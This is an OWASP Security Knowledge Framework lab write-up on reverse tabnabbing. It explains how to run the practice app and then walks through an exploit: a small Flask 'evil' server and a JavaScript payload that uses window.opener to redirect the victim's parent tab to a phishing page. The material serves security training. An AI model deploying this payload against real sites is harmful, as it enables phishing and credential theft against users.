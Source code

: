 # KBID 266 - Tabnabbing

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:tabnabbing
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:tabnabbing
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to defev!](../../.gitbook/assets/logo.defdev.1608z.whtonblk.256.png)

## Reconnaissance

Basically every application that opens a link to a "\_blank" page is interesting to investigate.

```markup
<a href="example.com" taget="_blank">Follow this link</a>
```

Let's assume that the domain in the link of the following demo is under our control as a malicious attacker. When we click on the link 'Tab me" we find that a new page is opened on another browser tab. This is exactly the behaviour we are looking for!

![](../../.gitbook/assets/tab1%20%281%29.png)

If we were now to inspect the browsers source code of the target application, our assumptions are validated. We can perform a reverse tabnabbing phishing attack!

![](../../.gitbook/assets/code.png)

## Exploitation

### Step1

Now it is time to start our evil application to be able to serve our malicious script. We can easily achieve this by starting our own simple python flask app that could look like this:

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install request
$ python appname.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for redirecting the parent tab to a new location. Below is what happens under the hood:

![](../../.gitbook/assets/tabnabbing_overview_with_link-1.png)

Now, let's add the following piece of javascript to the evil webserver we just created.

```javascript
<script>
  window.opener.location.replace("https://www.securityknowledgeframework.org")
</script>
```

### Step3

Now, after serving the evil web application open the target application and click on the link with the domain that is under our control. Notice how the parent tab immediately redirect itself to the web page of the security knowledge framework?

![](../../.gitbook/assets/tab2.png)

A visitor of an application that follows the link will be unexpectedly redirected to a phishing application. This evil application could look identical to the original application i.e. ask for the users credentials because his "session expired".

## Additional sources

[https://www.owasp.org/index.php/Reverse_Tabnabbing](https://www.owasp.org/index.php/Reverse_Tabnabbing)
